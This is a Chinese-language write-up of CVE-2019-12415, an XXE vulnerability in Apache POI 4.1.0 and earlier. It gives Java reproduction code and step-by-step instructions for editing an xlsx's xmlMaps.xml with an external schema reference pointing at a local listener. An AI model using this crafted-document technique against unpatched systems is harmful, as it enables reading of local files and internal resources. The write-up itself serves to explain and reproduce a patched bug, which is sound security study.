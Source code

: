 ```yaml
---
title: （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞
id: zhfly2819
---
```


# （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞

## 一、漏洞简介

### 什么是POI

Apache POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1 XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML方法的第三个参数为true逐步进入 isValid触发XXE。

![image](../img/f7953d6108bf48d4f42da73ae502daec.png)

## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个xlsx文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在  标签里面加上一行代码。

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```

![image](../img/f29234ef86e9729991075c07da706799.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。

![image](../img/2180b7cafa30e90b33f411b54259894e.png)